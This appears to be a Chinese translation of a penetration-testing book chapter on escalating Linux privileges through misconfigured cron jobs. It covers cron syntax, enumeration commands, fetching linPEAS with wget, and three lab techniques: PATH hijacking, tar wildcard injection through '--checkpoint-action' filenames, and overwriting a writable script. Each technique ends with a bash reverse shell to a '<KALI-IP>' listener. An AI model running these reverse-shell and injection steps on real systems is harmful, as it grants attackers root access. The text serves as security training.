


# 第十二章：计划任务

Linux 上最重要的权限提升向量之一是利用配置错误的计划任务，也就是 **cron 任务**。本章将专注于枚举目标系统上运行的计划任务，分析这些任务的配置错误，并利用这些错误提升我们的权限。

我们将从本章开始，首先了解 Linux 如何通过 cron 实现计划任务，然后我们将看看如何通过 cron 路径提升权限。接下来，我们将探讨如何利用 cron 通配符来提升权限，最后我们将研究通过 cron 文件覆盖提升权限的过程。

在本章中，我们将涵盖以下主要内容：

+   Cron 任务介绍

+   通过 cron 路径提升权限

+   通过 cron 通配符提升权限

+   通过 cron 文件覆盖提升权限

# 技术要求

要跟随本章中的演示，你需要确保你熟悉 Linux 终端命令。

你可以在这里查看本章代码的实际演示：[`bit.ly/3F3747S`](https://bit.ly/3F3747S)

# Cron 任务介绍

在操作系统上安排任务的能力是一个至关重要的功能，它可以提高在系统上执行任务的效率，从而提高负责管理和维护系统的个人效率。在通常面向普通终端用户的桌面操作系统中，这一功能可能不会完全实现或被重视，但在 Linux 系统中，尤其是作为服务器操作系统使用时，能够自动化并安排某些重复任务（如系统备份）是非常受欢迎的，且被系统管理员和工程师广泛实施。

Linux 通过一个名为 `cron` 的工具实现任务调度。Cron 是一个基于时间的服务，用于根据指定的时间表重复运行应用程序、脚本和其他命令。

配置为通过 cron 定期运行的应用程序或脚本被称为 cron 任务。Cron 可以用来自动化或重复系统上的多种功能，从每日备份到系统升级和补丁安装。

Cron 允许你在选择的时间周期性地运行程序、脚本或命令。这些 cron 任务随后会存储在 `crontab` 文件中。

`crontab` 文件是一个配置文件，由 cron 工具用于存储和跟踪已创建的 cron 任务。

现在你已经了解了 cron 的功能，我们来看看 cron 任务是如何存储在 `crontab` 文件中的。

## Crontab 文件

你可以通过在目标系统上运行以下命令来列出正在运行的 cron 任务：

crontab

或者，如果您当前登录的用户没有使用`crontab`命令的必要权限，您还可以通过运行以下命令手动显示`crontab`文件的内容：

cat /etc/crontab

如下图所示，这将输出所有活动的 cron 作业列表，以及它们各自的调度、应用程序、脚本或命令。

图 12.1 – crontab 文件内容

要理解我们如何利用 cron 作业来提升权限，我们需要了解`crontab`文件的结构以及 cron 作业的调度是如何配置的。

这可以通过一个简单的示例来实现。以下截图中突出显示的`crontab`条目安排命令在每小时的第 17 分钟反复运行：

图 12.2 – Cron 作业示例

cron 作业条目开头的前五个字段用于指定调度时间。这些字段用于指定以下值：

+   **分钟（0 – 59）**：用于指定 cron 作业应运行的具体分钟。

+   **小时（0 – 23）**：用于指定 cron 作业应运行的具体小时。

+   **日期（1 – 31）**：用于指定 cron 作业应运行的具体日期。

+   **月份（1 – 12）**：用于指定 cron 作业应运行的月份。

+   **星期几（0 – 7）**：用于指定 cron 作业应运行的星期几。

正如您可能注意到的，某些字段的值为星号（*****），这意味着 cron 作业将运行在所有小时、日期、周和月份，除非另有指定。在这种情况下，cron 作业将在每小时、每天、每月以及每周的第 17 分钟运行：

图 12.3 – Cron 作业语法

上面的截图概述了 cron 作业的语法以及可以自定义的各种字段，用于配置 cron 作业的调度。

Cron 作业也可以作为系统中的任何用户运行。这是一个非常重要的因素，因为我们将关注那些被配置为以 root 用户身份运行的 cron 作业。主要原因是，任何由 cron 作业运行的脚本或命令都将作为 root 用户运行，因此为我们提供 root 访问权限。

现在您已经了解了 cron 作业是如何工作的以及如何配置它们，我们可以开始分析它们的配置错误，从而提升我们的权限。

在本章中，我们将使用我们在 *第十一章* 中设置的虚拟机，*Linux 密码挖掘*。这是因为该虚拟机已配置为易受攻击，并且有各种 cron 任务可以用来演示不同的权限提升技术。

# 通过 cron 路径提升权限

我们将探索的第一个权限提升技术是利用配置不当的 cron 路径。然而，在我们开始这一过程之前，让我们快速了解一下在目标系统上访问 `crontab` 文件的各种方法。

我们需要这样做的原因是，因为我们会遇到已经配置不同且可以访问 `crontab` 文件的系统，因此枚举系统上运行的 cron 任务在权限提升过程中至关重要。

如前节所示，您可以通过运行以下命令访问目标系统上的 `crontab` 文件：

crontab

如果管理员已限制对该工具的访问，则此命令可能不会返回任何结果。然而，您可以使用以下命令来枚举系统中活动的 cron 任务信息：

crontab -l

ls -alh /var/spool/cron;

ls -al /etc/ | grep cron

ls -al /etc/cron*

cat /etc/cron*

cat /etc/at.allow

cat /etc/at.deny

cat /etc/cron.allow

cat /etc/cron.deny*

访问此处列出的文件和目录应该能够提供有关系统中活动的 cron 任务的信息。

## 使用 linPEAS 进行枚举

我们还可以使用自动化工具枚举系统上运行的各种 cron 任务。这可以通过使用 `linux-exploit-suggester` 或其他枚举脚本和工具来完成。在本例中，我们将使用 `linPEAS` 脚本来枚举目标系统的信息。

注意

linPEAS 是一个本地 Linux 枚举脚本，用于搜索和扫描潜在的漏洞，并枚举所有可以用于进行权限提升攻击的系统重要信息。

linPEAS 二进制文件可以从以下 GitHub 仓库下载：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)。

确保下载 `linpeas.sh` Bash 脚本，如下图所示：

图 12.4 – linPEAS Bash 脚本

下载 Bash 脚本到我们的 Kali 虚拟机后，我们需要将 `linpeas.sh` 文件传输到目标虚拟机。这不能自动完成，因为我们没有 Meterpreter 会话。因此，我们需要使用特定于 Linux 的实用程序来下载该二进制文件。

## 文件传输

要将`linpeas.sh`文件传输到目标系统，我们需要在 Kali VM 上设置一个 Web 服务器来托管该文件。这将允许我们在目标系统上下载该文件。可以按照以下步骤操作：

1.  要在 Kali VM 上设置 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供该二进制文件。可以通过在存储`linpeas.sh`二进制文件的目录中运行以下命令来完成此操作：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer`是一个适用于 Python 2 的 Python 模块，Python 3 中也有可用的`http.server`模块。

    如下图所示，`SimpleHTTPServer`模块将会在 Kali VM 的 IP 地址上通过端口`80`提供该目录中的文件：

    

    图 12.5 – SimpleHTTPServer linpeas

1.  要在目标系统上下载`linpeas.sh`文件，我们可以利用`wget`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如下图所示：

    图 12.6 – Linux 临时目录

1.  现在我们可以使用`wget`工具将文件从 Kali VM 下载到我们的目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    输出如下截图所示：

图 12.7 – wget linPEAS

如前面的截图所示，如果传输成功，`linpeas.sh`文件应已下载并保存为我们指定的文件名。

我们现在可以使用`linpeas.sh`脚本来列举目标系统上运行的各种 cron 作业。

## 使用 linPEAS 查找 cron 作业

`linpeas.sh`脚本列举了大量信息，并执行各种检查以发现目标系统上的潜在漏洞。我们可以使用`linpeas.sh`脚本列举并定位系统上运行的 cron 作业。可以按照以下步骤进行：

1.  要列举所有重要的系统信息，我们需要运行`linpeas.sh`脚本。然而，在此之前，我们需要确保脚本具有可执行权限。可以通过在目标上运行以下命令来完成此操作：

    `chmod +x linpeas.sh`

    或者，你可以通过运行以下命令修改`linpeas.sh`脚本的权限：

    `chmod 775 linpeas.sh`

1.  现在我们可以通过在目标上运行以下命令来执行`linpeas.sh`脚本：

    `bash linpeas.sh`

    如下图所示，脚本将列举系统信息并显示系统上运行的 cron 作业列表，以及默认的`$PATH`变量：

图 12.8 – linPEAS cron 作业

在这种情况下，我们的目标正在以 `root` 用户身份运行两个 cron 作业，这些作业已配置为每 1 分钟运行一次。我们可以利用这些信息来识别在 cron 作业执行的脚本和命令中可能存在的特定配置错误。

现在我们已经能够列出目标系统上运行的各种 cron 作业，我们可以开始权限提升过程。

## 通过 cron 路径提升权限

这种特定的权限提升技术涉及识别为 cron 作业在 `crontab` 文件中配置的默认 `$PATH` 变量，生成有效负载，并将其放入路径中：

图 12.9 – PATH 变量

注意

`$PATH` 变量用于设置 cron 作业运行的默认路径，除非另有指定。

如前述截图所示，`$PATH` 变量已被设置为 `user` 账户的主目录。这意味着，默认情况下，所有的 cron 作业将从 `user` 账户的主目录运行，除非另有指定。

这可以被理解为一种配置错误，因为 `user` 账户可以访问 cron 作业使用的文件和脚本。我们可以通过识别利用存储在 `user` 账户主目录中的脚本或二进制文件的 cron 作业来利用这一配置错误。

分析 `crontab` 文件揭示了一个有趣的 cron 作业，该作业以 `root` 用户身份运行一个名为 `overwrite.sh` 的 Bash 脚本：

图 12.10 – 覆盖 cron 作业

如前述截图所示，cron 作业还已配置为每小时的每一分钟、每天、每月都执行一次。

现在我们已经识别出一个符合要求的 cron 作业，我们可以开始权限提升过程：

1.  这个过程的第一步是定位并识别 cron 作业运行的 `overwrite.sh` 脚本的位置。我们已经能够确定 cron 作业使用的默认路径是 `user` 账户的主目录。我们可以通过运行以下命令来显示该目录的内容：

    `ls -al /home/user/`

    输出如下：

    

    图 12.11 – 用户主目录

    如前述截图所示，我们无法在 `user` 主目录中找到 `overwrite.sh` 脚本。这可能是因为 `root` 用户尚未创建该脚本。无论如何，我们可以自行创建该脚本，并通过 cron 作业以 root 用户身份执行该脚本，从而为我们提供反向 shell。

1.  我们可以创建 `overwrite.sh` 脚本，并插入一个 Bash 命令，为我们提供反向 shell。可以通过在 `user` 主目录中运行以下命令来实现：

    `echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh`

    该命令将添加一个 `bash` 命令，连接到我们在 Kali Linux 虚拟机上的反向监听器。确保替换命令中的字段，填写相应的 IP 地址和端口号。

    在运行上述命令后，`overwrite.sh` 文件应该已经创建，并且它应包含以下截图所示的命令：

    

    图 12.12 – 覆盖文件

    一旦我们创建了这个文件，我们需要使用 Netcat 设置一个反向监听器。

1.  我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    `nc -nvlp <PORT>`

    确保指定在 `overwrite.sh` 脚本中使用的端口。设置监听器后，我们需要等待几分钟，直到 cron 任务运行。

    一旦 cron 任务被调用，`overwrite.sh`脚本将被执行。我们应该能在我们的监听器上获得一个带有 root 权限的反向 shell，如下图所示：

图 12.13 – 反向 shell

通过这种方式，我们成功地通过利用 crontab `$PATH` 变量中的配置错误提升了权限。这使我们能够执行一个自定义命令，从而在目标系统上获得一个提升的反向 shell。

# 通过 cron 通配符进行权限提升

该权限提升技巧涉及利用执行带有通配符的命令或脚本的 cron 任务。在 Linux 环境中，通配符（*****）用于一次执行多个操作，并且可以以多种不同方式使用。在本节中，我们将探讨如何在配置错误的情况下利用这些通配符来执行恶意命令或脚本。

重要提示

请注意，这一技巧的成功与否取决于 cron 任务中是否使用了通配符。

按照以下步骤操作：

1.  这个过程的第一步是识别那些执行带有通配符的命令或脚本的 cron 任务。分析 `crontab` 文件时，发现了一个有趣的 cron 任务，负责创建和压缩备份归档文件：

    图 12.14 – 备份 cron 任务

    如上截图所示，cron 任务以 root 用户身份每分钟运行一次 `/usr/local/bin` 目录下的 `compress.sh` 脚本，并且每天、每小时、每月都会运行。

1.  我们可以通过运行以下命令来显示`compress.sh`脚本的内容：

    `cat /usr/local/bin/compress.sh`

    输出如下：

    

    图 12.15 – 显示 compress.sh 脚本的内容

    如前面截图所示，我们可以确认脚本是从**用户**帐户的主目录执行的，且文件已使用`tar`工具进行压缩。然而，我们还可以发现`tar`命令的末尾有一个通配符（*****）。这个通配符用于指定**用户**帐户主目录中的所有文件。

1.  `tar`工具具有一个检查点功能，用于在特定文件集之后显示进度消息。它还允许用户定义在检查点期间执行的特定操作。我们可以利用此功能来执行一个反向 Shell 负载，在执行时为我们提供一个提升的会话。

1.  我们可以创建反向 Shell 脚本，并插入一个`bash`命令，它将为我们提供反向 Shell。可以通过在**用户**的主目录中运行以下命令来实现：

    `echo 'bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1' > shell.sh`

    该命令将添加一个`bash`命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。确保在命令中替换相应的 IP 地址和端口号。

    运行上述命令后，应该已经创建了`shell.sh`文件，并且文件中应包含以下截图所示的命令：

    

    ](Images/B17389_12_016.jpg)

    图 12.16 – Shell 脚本

    现在我们已经创建了文件，需要使用 Netcat 设置反向监听器。

1.  我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    `nc -nvlp <PORT>`

    确保在`shell.sh`脚本中指定你使用的端口。

1.  现在我们可以在**用户**帐户的主目录中设置`tar`检查点。这可以通过在目标系统上运行以下命令来实现：

    `touch /home/user/--checkpoint=1`

1.  设置好检查点后，我们需要设置检查点操作。在此案例中，我们的检查点操作将执行`shell.sh`脚本，它将为我们提供一个提升的反向 Shell。可以通过运行以下命令来实现：

    `touch /home/user/--checkpoint-action=exec=sh\ shell.sh`

    设置好`tar`检查点和检查点操作后，我们需要等待几分钟，直到 cron 作业被触发，此时我们应该会在 Netcat 监听器上收到一个提升的反向 Shell，如下图所示：

](Images/B17389_12_017.jpg)

图 12.17 – 反向 Shell

通过利用 cron 作业中错误使用通配符来执行反向 Shell 负载作为 root 用户，我们成功地提升了特权。

现在，让我们看看如何通过 cron 文件覆盖提升我们的特权。

# 通过 cron 文件覆盖进行特权提升

另一项我们可以利用的技术是覆盖 cron 作业使用的脚本内容来提升权限。在前面的章节中，我们探讨了如何利用错误配置的路径和使用通配符。然而，我们没有探讨如何通过覆盖脚本或文件的内容来提升权限。

注

这项技术的成功与可行性将取决于我们是否拥有修改或更改由 cron 作业执行的脚本或文件的必要权限。

这项技术可以通过以下步骤执行：

1.  该过程的第一步是识别一个以 root 用户身份执行具有读写权限的脚本或二进制文件的 cron 作业。在这种情况下，我们可以识别一个运行`overwrite.sh`脚本的 cron 作业，如下图所示：

    图 12.18 – 覆盖 cron 作业

    我们在本章第二节中讨论了如何利用这个特定的 cron 作业，*通过 cron 路径提升权限*，在该节中，我们利用了错误配置的路径，允许我们创建一个自定义的`overwrite.sh`脚本，执行时提供提升权限的反向 shell。这是因为默认路径变量指定了`user`帐户的主目录作为 cron 作业的主目录。然而，如果在第一个目录中未找到`overwrite.sh`脚本，cron 将检查`$PATH`变量中指定的其他目录，正如以下截图所示：

    

    图 12.19 – Crontab 路径

1.  在这种情况下，我们未在`user`帐户的主目录中找到`overwrite.sh`脚本。因此，我们可以在`$PATH`变量中指定的其他目录中搜索该脚本。可以通过列出每个目录的内容来实现，如下所示：

    `ls -al /usr/local/bin | grep overwrite.sh`

    另外，你可以使用`locate`工具通过运行以下命令来搜索`overwrite.sh`脚本：

    `locate overwrite.sh`

    在这种情况下，我们将在`/usr/local/bin`目录下找到文件，正如以下截图所示：

    

    图 12.20 – 定位脚本

1.  下一步是识别`overwrite.sh`脚本的权限，以确定我们是否可以更改或覆盖脚本的内容。可以通过运行以下命令来实现：

    `ls -al /usr/local/bin | grep overwrite.sh`

    输出如下所示，见下图：

    

    图 12.21 – 文件权限

    在这种情况下，我们可以确定该脚本具有读写权限。因此，我们可以使用自己的命令对文件进行修改或覆盖。

1.  现在，让我们在 `overwrite.sh` 脚本中添加一个 `bash` 命令，为我们提供一个反向 Shell。可以通过运行以下命令来实现：

    `echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" >> /usr/local/bin/overwrite.sh`

    该命令将附加一个 `bash` 命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。请确保用相应的 IP 地址和端口号替换命令中的字段。

    运行上述命令后，`overwrite.sh` 脚本应包含以下截图中所示的命令：

    

    图 12.22 – overwrite.sh 脚本附加的命令

1.  一旦我们附加了 `bash` 命令，我们需要使用 Netcat 设置一个反向监听器。

    我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    `nc -nvlp <PORT>`

    请确保指定您在 `overwrite.sh` 脚本中使用的端口。

    在将 `bash` 命令附加到 `overwrite.sh` 脚本后，我们需要等待几分钟，以便 cron 作业被触发，之后我们应该会在 Netcat 监听器上收到一个提权的反向 Shell，如下图所示：

图 12.23 – 反向 Shell

通过这一操作，我们成功利用了配置错误的 cron 作业，提升了权限，并以 root 用户身份执行了反向 Shell 有效负载。

现在，您应该对如何枚举系统上运行的 cron 作业有了清晰的了解，并且掌握了如何通过多种技术手段利用这些作业提升权限。

# 总结

在本章中，我们首先研究了 cron 工具的工作原理和 crontab 文件的结构。然后，我们深入探讨了如何利用配置错误的 cron 路径。我们还探索了通过利用 cron 作业执行的脚本中的通配符来提升权限的过程。最后，我们通过研究如何通过 cron 文件覆盖提升权限结束了本章内容。

在下一章，我们将探讨如何利用 SUDO 和 SUID 二进制文件来提升我们的权限。
